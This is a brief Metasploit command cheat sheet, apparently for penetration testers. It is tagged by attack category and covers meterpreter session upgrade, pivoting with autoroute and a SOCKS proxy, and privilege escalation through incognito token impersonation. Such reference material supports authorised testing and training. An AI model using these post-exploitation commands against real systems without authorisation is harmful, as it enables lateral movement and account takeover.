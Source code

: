 # MSF

% metasploit

## upgrade session to meterpreter
#plateform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
use multi/manage/autoroute
```

## add socks proxy
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain>\\<user>
```
